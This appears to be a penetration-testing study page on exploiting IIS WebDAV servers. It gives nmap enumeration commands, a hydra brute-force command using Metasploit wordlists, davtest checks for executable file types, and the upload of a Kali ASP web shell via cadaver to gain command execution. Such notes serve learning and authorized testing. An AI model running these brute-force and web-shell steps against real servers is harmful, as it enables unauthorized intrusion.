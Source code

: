 # Frequently exploited Windows Services

&#x20; &#x20;

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

## IIS WebDAV

### General information

#### IIS

* Default ports

```
80, 443
```

* Supported executed files

```
.asp
.aspx
.config
.php
```

#### WebDAV

WebDAV is a protocol that allows you to edit web content on a server using HTTP or HTTPS connections. It has advantages over FTP such as more security options and file locking.

* Default ports

```
80, 443
```

* Needs legitimate credentials, since it implements authentication in form of a username/password



### Steps of exploitation

1. Enumeration. Identify whether WebDAV has been configured to run on the IIS web server.
2. Brute-force attack on the WebDAV server in order to identify legitimate credentials that we can use for authentication.&#x20;
3. Upload a malicious (like a .asp payload) and execute arbitrary commands or obtain a reverse shell on the target.

#### Useful tools

* [davtest](https://code.google.com/archive/p/davtest/) -> Used to scan. authenticate and exploit a WebDAV server.
* [cadaver](https://github.com/notroj/cadaver) -> Supports file upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking on WebDAV servers.

### Exploitation

#### nmap

```sh
nmap -sV -sC $IP
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

* nmap deep dive

```sh
nmap -sv -p 80 --script=http-enum $IP
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

#### Bruteforce the authentication

The address will be `http://%IP/webdav/`

{% code overflow="wrap" %}
```sh
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt $IP http-get /webdav/
```
{% endcode %}



#### davtest

```sh
davtest -auth admin:password_123 -url http://$IP/webdav
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

* The most important section of the output, with that we can see that .asp can be executed and we can get our reverse shell wih that

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

#### cadaver

```shell
cadaver http://$IP/webdav

Put credentials and get a cmd shell
```

* Use kali linux pre-package web shells to upload a file and get access

Folder:

```bash
/usr/share/webshells
```

![](<../../.gitbook/assets/image (23).png>)

* Using the cadaver shell upload the web shell

```sh
put /usr/share/webshells/asp/cmd
```

* Go via UI and execute the web shell

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
